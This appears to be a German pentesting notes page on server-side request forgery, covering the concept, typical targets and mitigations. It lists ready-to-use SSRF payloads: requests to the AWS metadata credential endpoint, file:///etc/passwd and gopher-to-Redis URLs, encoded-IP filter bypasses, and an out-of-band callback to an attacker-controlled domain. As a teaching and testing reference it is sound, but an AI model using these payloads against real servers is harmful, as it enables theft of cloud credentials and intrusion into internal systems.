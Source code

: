 ```yaml
---
description: Server wird zur internen Kommunikation missbraucht
---
```


# SSRF - server side request forgery — make servers attack themselves

<details>

<summary><strong>Tools &#x26; Quellen:</strong></summary>

[burp-suite.md](../../../programme-skripte/burp-suite.md "mention")

FFUF/SSRFmap/SSRFire

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

</details>

**Definition, Techniken, Erkennung und Missbrauchsmöglichkeiten**

**Server-Side Request Forgery (SSRF)** ist eine Sicherheitslücke, bei der ein Angreifer einen Server dazu bringt, interne oder externe HTTP-Anfragen zu generieren. Der Angreifer kontrolliert dabei ganz oder teilweise die Zieladresse (z. B. URL oder IP), wodurch interne Dienste, Metadaten-APIs oder nicht öffentliche Netzwerke abgefragt werden können. SSRF kann sowohl zu Informationslecks als auch zu Remote Code Execution oder weiteren Angriffen führen.

***

### **Ziel und Angriffsmöglichkeiten**

Bei einem SSRF-Angriff wird ein Server – z. B. durch manipulierte Parameter in einer URL – dazu gebracht, selbst HTTP-Anfragen an andere Systeme zu stellen. Dies kann ausgenutzt werden, um:

* interne Systeme zu scannen (`localhost`, `127.0.0.1`, `169.254.169.254`, etc.)
* sensible Metadaten aus Cloud-Umgebungen (z. B. AWS EC2) zu exfiltrieren
* nicht freigegebene APIs aufzurufen oder interne Admin-Panels zu erreichen
* Webhooks oder Callback-Mechanismen umzuleiten oder zu missbrauchen
* interne Dienste in Verbindung mit weiteren Schwachstellen zu kompromittieren (Pivoting)

***

### **Typische Angriffsparameter**

Ein SSRF-Vektor tritt häufig auf, wenn der Server Benutzer-Eingaben zur URL-Verarbeitung nutzt, z. B.:

```http
GET /fetch?url=http://example.com/image.jpg
```

Manipulation durch den Angreifer:

```http
/fetch?url=http://127.0.0.1:8080/admin
/fetch?url=http://169.254.169.254/latest/meta-data/
```

***

### **Interne Zielsysteme (typische Angriffsziele)**

| Zieladresse                     | Bedeutung                                 |
| ------------------------------- | ----------------------------------------- |
| `127.0.0.1` / `localhost`       | Zugriff auf lokale Services               |
| `169.254.169.254`               | Cloud-Metadaten (z. B. AWS, Azure)        |
| `internal-service.local`        | Interne DNS-Einträge                      |
| `http://localhost:3000/metrics` | Prometheus, Admin Panels                  |
| `http://redis:6379/`            | Versuch direkter Interaktion mit Diensten |

***

### **Straightforward Beispiele (Testfälle)**

#### **Zugriff auf interne HTTP-Services**

```http
/fetch?url=http://127.0.0.1:80
/fetch?url=http://localhost:8000/admin
```

#### **Cloud Metadaten abfragen (z. B. AWS)**

```http
/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
/fetch?url=http://169.254.169.254/latest/user-data
```

***

### **Umgehung von Filtermechanismen (WAF Bypasses)**

#### **IP-Kodierungen**

| Eingabeform         | Bedeutung                     |
| ------------------- | ----------------------------- |
| `http://2130706433` | Dezimale Form von `127.0.0.1` |
| `http://0x7f000001` | Hexadezimal                   |
| `http://0177.0.0.1` | Oktalnotation                 |
| `http://127.0.1`    | Verkürzte Notation            |

#### **Protokollvarianten**

```http
/fetch?url=gopher://127.0.0.1:6379/_PING
/fetch?url=file:///etc/passwd
/fetch?url=ftp://127.0.0.1/resource
```

***

### **Exploits mit Out-of-Band (OOB) Verifikation**

#### **Externe Interaktionen zur Bestätigung**

```http
/fetch?url=http://<attacker-controlled-domain>/log
```

Verwendung eines DNS-Logging-Tools (z. B. `Burp Collaborator`, `dnslog.cn`) ermöglicht die Bestätigung der erfolgreichen SSRF-Anfrage durch Abruf der externen Domain.

***

### **Erkennung von SSRF über Zeitverhalten (Time Delay)**

Einige Server lassen sich durch Verzögerung in der Antwortzeit auf anfällige interne Services testen, etwa:

```http
/fetch?url=http://127.0.0.1:1234 (Verzögerung = Dienst antwortet nicht)
```

***

### **Schutzmaßnahmen (für Entwickler & Admins)**

* Whitelisting von Zieladressen (z. B. nur erlaubte Domains zulassen)
* Auflösen und Validieren von IPs vor dem Verbindungsaufbau (DNS-Rebinding verhindern)
* Blockieren von internen IP-Ranges (`127.0.0.0/8`, `169.254.0.0/16`, `192.168.0.0/16`, etc.)
* Protokollbasiertes Filtern (nur `http`, `https` erlauben)
* Ausgehende Verbindungen auf Netzwerkebene einschränken (z. B. durch Firewall/Proxy)

***

### Bekannte Verteidigungen gegen SSRF

#### Deny List

Alle Anfragen werden akzeptiert. Ausnahmen werden innerhalb einer Deny-Liste definiert.

Dabei können sensible Endpoints, IP-Adressen oder Domänen gegen Zugriff von außerhalb geschützt werden. Beispielsweise sollte der localhost-Endpoint geschützt werden. Typische Einträge dafür sind "localhost" bzw. "127.0.0.1"

Der Zugriff auf localhost kann umgangen werden durch alternative Referenzen wie `0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001` oder Subdomains mit DNS-Record welcher auf IP-Adresse 127.0.0.1 auflöst.

Bei Cloud-Umgebungen sollte die IP-Adresse 169.254.169.254 blockiert werden, da sie Metadaten des Cloud-Servers inklusive ggf. sensibler Informationen enthalten können. Ein Angreifer könnte das umgehen, indem eine Subdomain mit eigenem DNS-Record erstellt wird, der auf diese IP-Adresse zeigt.

#### Allow List

Alle Anfragen werden abgelehnt. Ausnahmen werden innerhalb einer Allow-Liste definiert.

In der Liste werden Muster definiert, die bei einer Anfrage verwendet werden müssen. Beispielsweise dass eine Anfrage mit https://interne-website.xyz beginnen muss.

Die Regel kann umgangen werden indem auf Angreiferseite eine Subdomain mit der Domain erstellt wird. Für obere Anfrage könnte das wie folgt aussehen: https://**interne-website.xyz.**&#x68;ackersite.com

#### Open Redirect

Eine offene Weiterleitung ist ein Endpunkt auf dem Server, an dem der Website-Besucher automatisch zu einer anderen Website-Adresse weitergeleitet wird.

Nehmen wir zum Beispiel den Link https://website.thm/link?url=https://tryhackme.com. Dieser Endpunkt wurde eingerichtet, um die Anzahl der Besucher aufzuzeichnen, die zu Werbe-/Marketingzwecken auf diesen Link geklickt haben.

Aber stellen Sie sich vor, es gäbe eine potenzielle SSRF-Schwachstelle mit strengen Regeln, die nur URLs zulassen, die mit https://website.thm/ beginnen.

Ein Angreifer könnte die oben genannte Funktion nutzen, um die interne HTTP-Anfrage an eine Domäne seiner Wahl umzuleiten.
